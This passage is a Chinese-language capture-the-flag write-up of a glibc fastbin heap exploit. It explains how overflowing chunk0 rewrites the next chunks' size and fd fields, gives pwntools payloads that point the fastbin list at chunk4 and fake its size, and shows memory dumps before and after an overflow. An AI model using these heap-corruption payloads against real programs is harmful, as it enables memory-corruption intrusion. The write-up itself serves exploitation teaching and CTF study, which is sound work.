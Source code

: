 第一步，来5个chunk，按照索引叫它们，分别为chunk0-4。chunk0-3都是fastbin大小0x10，唯独chunk4是unsorted bin大小0x80。chunk4在后面有大用途，不过现在我们要做的仅仅是free chunk1和chunk2而已。回想fastbin的知识，fastbin中会形成一个单链表，chunk1->chunk2，chunk2的fd是chunk1。fastbin还有个好处，就是它不会合并，放心用。接下来开始搞事情，先问个问题，堆溢出溢出的是哪里？答案是与其物理相邻的下一个 chunk 的内容。包括：

```
prev_size
size，主要有三个比特位，以及该堆块真正的大小。
NON_MAIN_ARENA
IS_MAPPED
PREV_INUSE
the True chunk size
chunk content，从而改变程序固有的执行流
```

记住是下一个chunk，不是当前chunk，把它刻到你的dna里。当然在这道题里面可溢出的大小可控，覆盖下下个chunk也没问题。现在我们要做的正是如此，使用fill函数填充chunk0，一直覆盖到chunk2，更改chunk2的fd。

```python
payload = p64(0)*3
payload += p64(0x21)
payload += p64(0)*3
payload += p64(0x21)
payload += p8(0x80)
fill(0, payload)
```

至于为什么这么填，都是调试加上[堆结构](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/heap-structure/)（prev_size,size和chunk_content)决定的，wp里有详细截图。或许用个例子能更好演示覆盖的是哪里。和这题没关系，但是结构一样，这是chunk被覆盖前：

```
0x602000:   0x0000000000000000  0x0000000000000021 <===chunk
0x602010:   0x0000000000000000  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000020fe1 <===top chunk
0x602030:   0x0000000000000000  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000000000
```

chunk从0x602000开始。填入100个A后变成这样：

```
0x602000:   0x0000000000000000  0x0000000000000021 <===chunk
0x602010:   0x4141414141414141  0x4141414141414141
0x602020:   0x4141414141414141  0x4141414141414141 <===top chunk(已被溢出)
0x602030:   0x4141414141414141  0x4141414141414141
0x602040:   0x4141414141414141  0x4141414141414141
```

从size的下一个开始填入。这样对比着加上wp的截图就知道怎么溢出的了。最后的p8是为了覆盖chunk2的fd的一个高位，使其指向chunk4。更改其fd为chunk4后，chunk4也在fastbin链表里了，虽然它根本没有被free。chunk4的大小是0x80，这不是fastbin的大小啊，肯定会被系统看出来。于是我们把chunk4的size改成0x21。

```python
payload = p64(0)*3
payload += p64(0x21)
fill(3, payload)
```

现在万无一失，让我们allocate两个chunk，第一个是chunk2，但是第二个却是chunk4了，因为我们更改了chunk2的fd，让fastbin把chunk2拿出后链表中下一个待命的是chunk4。虽然fastbin malloc时会检查被malloc的chunk大小是否符合fastbin，但是我们改过了，成功得到chunk4。
